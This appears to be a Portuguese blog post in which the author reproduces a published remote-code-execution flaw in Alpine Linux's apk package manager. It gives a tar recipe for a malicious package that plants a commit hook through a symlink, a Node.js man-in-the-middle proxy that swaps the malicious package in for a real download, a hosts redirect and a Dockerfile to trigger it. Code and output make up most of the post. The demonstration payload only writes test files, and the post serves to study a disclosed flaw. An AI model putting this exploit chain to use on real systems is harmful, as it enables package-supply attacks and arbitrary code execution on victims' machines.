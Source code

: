 ```yaml
---
layout: post
title: Testando RCE no Alpine Linux usando APK
lang: pt_BR
description: Testando vulnerabilidade no APK do Alpine Linux
tags: docker alpine linux rce vulnerability apk
comments: true
--- 
```


Ultimamente eu tenho estudado um pouco de segurança e uma das coisas que estou fazendo de tempos em tempos é lendo CVE e tentando testar e entender o que está acontecendo. Ontem [Max Justicz](https://justi.cz/) publicou "[Remote Code Execution in Alpine Linux](https://justi.cz/security/2018/09/13/alpine-apk-rce.html). Ele encontrou problemas no `apk` o qual é o gerenciador de pacotes para o Alpine Linux que é super popular para imagens docker.

Max fez um trabalho excelente em explicar os passos e razões, mas eu queria testar eu mesmo. 


```
- Create a folder at /etc/apk/commit_hooks.d/, which doesn’t exist by default. Extracted folders are not suffixed with .apk-new.

- Create a symlink to /etc/apk/commit_hooks.d/x named anything – say, link. This gets expanded to be called link.apk-new but still points to /etc/apk/commit_hooks.d/x.

- Create a regular file named link (which will also be expanded to link.apk-new). This will write through the symlink and create a file at /etc/apk/commit_hooks.d/x.

- When apk realizes that the package’s hash doesn’t match the signed index, it will first unlink link.apk-new – but /etc/apk/commit_hooks.d/x will persist! It will then fail to unlink /etc/apk/commit_hooks.d/ with ENOTEMPTY because the directory now contains our payload.
```

As instruções dele parecem simples, mas se você não está super familiar como arquivos tar funcionam e alguns outros conceitos, você pode não entender. Em um arquivo tar você pode ter multiplas versões ou arquivos com o mesmo nome e extrair eles usando `--occurrence`. Com isso em mente as intruções fazem um pouco mais de sentido. 

Primeiramente criando os diretórios:
```
sudo mkdir /etc/apk/commit_hooks.d/
mkdir folder_for_link
mkdir folder_for_real_file
```

Criando o link
```
/etc/apk/commit_hooks.d/x folder_for_link/magic
```

Crie o arquivo `folder_for_real_file/magic` com este conteudo
```
#!/bin/sh

echo "something" > /tmp/test-12346-YAY
echo "ha" > /testfileroot
```
(Se isso realmente funcionar devemos ter esses dois arquivos no sistema.)

Agora temos praticamente tudo que precisamos e podemos criar o apk:
```
tar -zcvf bad-intention.apk /etc/apk/commit_hooks.d/ -C $PWD/folder_for_link/ magic -C $PWD/folder_for_real_file/ magic
```

Aqui estamos adicionando 3 arquivos em sequencia para o tar, você pode checar o resultado com:
```
$ tar tvf bad-intention.apk
drwxr-xr-x root/root         0 2018-09-13 19:44 etc/apk/commit_hooks.d/
lrwxrwxrwx root/root         0 2018-09-13 19:37 magic -> /etc/apk/commit_hooks.d/x
-rwxrwxrwx root/root 954 2018-09-13 23:24 magic
```
(Preste atenção na ordem dos mesmos, criação do diretorio commit_hooks.d, criação do link, criação do arquivo)

Qual deveria ser o comportamento agora? Já que o APK no Alpine roda apartir do `/` ele vai criar a pasta `/etc/apk/commit_hooks.k`, posteriomente vai extrair o link e terminar fazendo output do arquivo magic para o link o qual será escrito no arquivo X (apontado pelo link). *Note*, eu perdi MUITO TEMPO tentando verificar esse comportamento com o `tar` mas parece que este não possui esse comportamento e o `apk` implementou seu proprio extrator.

Certo, agora precisei entregar este arquivo quando rodasse `apk add` dentro do docker. Localmente, eu atualizei meu /etc/hosts e apontei `dl-cdn.alpinelinux.org` para localhost. Utilizando as bibliotecas `http-mitm-proxy http-proxy request` no nodejs, eu criei um servidor que forneceria o .apk criado caso a url contenha "ltrace" no meio, caso contrário baixaria o arquivo normalmente e instalaria.1

```
var http = require('http'),
    httpProxy = require('http-proxy'),
    request = require('request'),
    fileSystem = require('fs'),
    path = require('path');

var proxy = httpProxy.createProxyServer({});

var server = http.createServer(function(req, res) {
  console.log('http://nl.alpinelinux.org' + req.url)
  if (req.url.indexOf('ltrace') > -1) {
    console.log("Trapped")
    var filePath = path.join(__dirname, 'bad-intention.apk');
    var stat = fileSystem.statSync(filePath);
    var readStream = fileSystem.createReadStream(filePath);
    readStream.pipe(res);
  } else {
      proxy = request('http://nl.alpinelinux.org' + req.url)
      proxy.on('response', function (a, b) {}).pipe(res);
  }
});

console.log("listening on port 80")
server.listen(80);
```

Criando a imagem do docker com `docker build -t alpinetest --network=host --no-cache .`
```
FROM alpine:3.8

# RUN apk add python
RUN apk add ltrace

CMD "/bin/sh"
```
(Se você está curioso, você pode dar uma olhada dentro da imagem mesmo que o build tenha falhado. Você pode verificar que os arquivos estão no lugar certo. Utilize `docker commit CONTAINER_ID` e `docker run -it SHA256_STRING sh`.)

A saida retornou "The command '/bin/sh -c apk add ltrace' returned a non-zero code: 1". Isto acontece porque o `apk` verifica a assinatura do arquivo e tenta limpar os arquivos e diretórios porém ele não consegue já que existe um arquivo em `/etc/apk/commit_hooks.k`. Então como fazer alguma magica para fazer o comando retornar o exit code 0? Max encontrou um (ou dois) jeitos.

Eu ainda preciso estudar e entender o que exatamente o python script faz mas eu testei o mesmo e ele funciona. Como um teste rápido você pode descomentar `RUN apk add python` e atualizar o script `folder_for_real_file/magic` para chamar o código python. 

Matheus